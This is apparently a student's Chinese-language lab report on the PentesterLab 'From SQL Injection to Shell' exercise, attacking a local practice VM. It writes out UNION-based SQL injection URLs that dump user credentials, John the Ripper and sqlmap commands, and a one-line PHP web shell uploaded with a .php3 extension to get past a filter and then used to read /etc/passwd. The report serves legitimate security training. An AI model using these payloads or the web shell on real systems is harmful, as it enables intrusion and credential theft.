



## 实验环境

1. 下载iso镜像。[https://pentesterlab.com/exercises/from_sqli_to_shell](https://pentesterlab.com/exercises/from_sqli_to_shell)

2. 新建Debian虚拟机，添加已下载完成的from_sqli_to_shell_i386.iso镜像，设置网卡为Host-Only模式。运行虚拟机。

3. 查看虚拟机IP。

   

4. 打开一个kali虚拟机作为实验操作环境。

   

5. 确保实验主机可以ping通实例虚拟机。

   

6. 在实验主机浏览器中输入192.168.56.101即可进入实验界面。


## 实验分析

### 端口扫描

1. 用nmap进行扫描，查看服务器开放端口及系统信息。

```
nmap -A 192.168.56.101
```


2. nc尝试连接80端口，发送```GET  / HTTP/1.1``` 请求。


### 查看网页信息

1. 查看网页源代码，可以看到很多php链接。

   

2. ```cat.php?id=1``` 将生成以下SQL语句请求：```SELECT * FROM cat WHERE id=1```

3. 到实验主页面依次点击链接进行观察。

   - test。发现```cat.php?id=1``` 会显示两张图片。

     

   - ruxcon。发现```cat.php?id=2``` 会显示一张图片。

     

   - 2010。发现```cat.php?id=3``` 没有图片显示。

     

   - All pictures。发现```all.php``` 显示全部三张图片。

     

     

     

   - admin。发现这是一个登录界面。

     

综上，可以分析出，这个实验应该在cat.php中找到SQL注入，在数据库中查询到本不应该查询到的用户登录的账号和密码，完成登录操作。

## 实验过程

### 查找SQL注入点

1. ```http://192.168.56.101/cat.php?id=1'```。刷新界面发现报错，说明存在SQL注入点。从报错信息上可以看到**后端数据库是MySQL**。

   

2. ```http://192.168.56.101/cat.php?id=1 and 1=1```。刷新界面发现和原来的界面显示一致，说明存在SQL注入点。

   

3. ```http://192.168.56.101/cat.php?id=1 and 1=2```。刷新界面发现和原来的界面显示不一致，说明存在SQL注入点。

   

### 利用UNION关键字进行SQL注入

#### 查找UNION的列数

使用UNION，攻击者可以操纵查询的结尾并从其他表中检索信息。

```sql
SELECT id，column2，column3 FROM cats WHERE id = 3  
UNION SELECT id，username，password FROM users
```

最重要的规则是两个语句都应返回相同数量的列，否则数据库将触发错误。


1. 由于不知道具体的列数，先猜1列看一下结果。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1``` 

   

2. 依次往下猜，发现到4列时可以看到有效显示。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1，2，3，4``` 

   

3. 查看页面源码可以看到多出来的一个链接。

   


4. 点开上面的链接可以看到以下错误提示信息。

   

也可以利用关键字```ORDER BY```来判断属性列的个数，`ORDER BY`主要用于告诉数据库应该使用哪个列来排序结果，所以如果没有该属性列，会报错。

```http://192.168.56.101/cat.php?id=1 ORDER BY 5```


依次尝试后发现第5列是一个未知列，所以数据库只有4列。


#### 检索信息

知道列数之后，可以用一些语句替换某一列值，得到我们想要的信息。

在上述猜测列数的过程中，可以看到多了一个picture：2字段，猜测第2列可以利用。

1. 查看版本信息。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,@@version,3,4```

   

2. 查看当前用户。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,current_user(),3,4```

   

3. 查看数据库信息。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,database(),3,4```

   

4. 查看所有表的列表。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables```

   

5. 查看所有列的列表。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns```

   

6. 连接表和列。在user表中看到有用户和密码列。

   ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```

   


7. 构建一个查询得到用户名和密码。

   


至此，我们已经得到了用户名和经过hash后的密码，只需破解密码即可。

### 破解密码

#### 搜索引擎

在Google中直接搜索该hash值，得到结果。


#### John-The-Ripper

1. 新建一个文件shadow，将```admin:8efe310f9ab3efeae8d410a8e0166eb2``` 存入文件。

2. 使用password.lst破解，发现破解失败。

   ```
   john shadow --format=raw-md5 --wordlist=/usr/share/john/password.lst --rules
   # --format 强制使用某种类型的散列函数
   # --rules 单词表模式启用单词修改规则
   ```


3. 使用其他字典进行破解。

   

   ```
   john shadow --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt --rules
   john shadow --show --format=raw-md5
   ```

   

### 登录

点击Admin页面，输入用户名admin，密码P4ssw0rd，登录。


发现新链接可以上传php脚本。

```php
<?php
  system($_GET['cmd']);
?>
```


点击add之后发现显示没有php。说明php被过滤了。



将文件扩展名更改为.php3，再次尝试提交。


可以看到上传成功。


### 测试WebShell

使用测试脚本cmd运行命令。

1. 查看内核。```http://192.168.56.101/admin/uploads/test.php3?cmd=uname```


2. 查看 /etc/passwd。

   ```http://192.168.56.101/admin/uploads/test.php3?cmd=cat /etc/psasswd```


3. 查看 /etc目录下内容。

   

### 利用sqlmap查找Web漏洞

1. 查找数据库。可以看到有两个可用数据库。

1. ```mysql
   sqlmap -u "http://192.168.56.101/cat.php?id=1" --dbs
   # -u URL
   # --dbs 枚举DBMS数据库
   ```

   

2. 尝试获取photoblog数据库中的全部数据。可以看到在users表中存储的用户名和密码。

   ```mysql
   sqlmap -u "http://192.168.56.101/cat.php?id=1" -D photoblog --dump-all --batch
   # -D 使用的数据库
   # --dump-all 转储所有DBMS数据库表项
   # --batch 不问用户的输入，选择默认值
   ```

   

3. 获得用户名密码之后就可以直接登录了。

## 参考链接

1. [https://pentesterlab.com/exercises/from_sqli_to_shell/course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
2. [https://tools.kali.org/vulnerability-analysis/sqlmap](https://tools.kali.org/vulnerability-analysis/sqlmap)
3. [https://github.com/CUCCS/2018-NS-Public-jckling](https://github.com/CUCCS/2018-NS-Public-jckling/blob/ns-0x07/ns-0x07/%E5%AE%9E%E9%AA%8C%E6%8A%A5%E5%91%8A.md)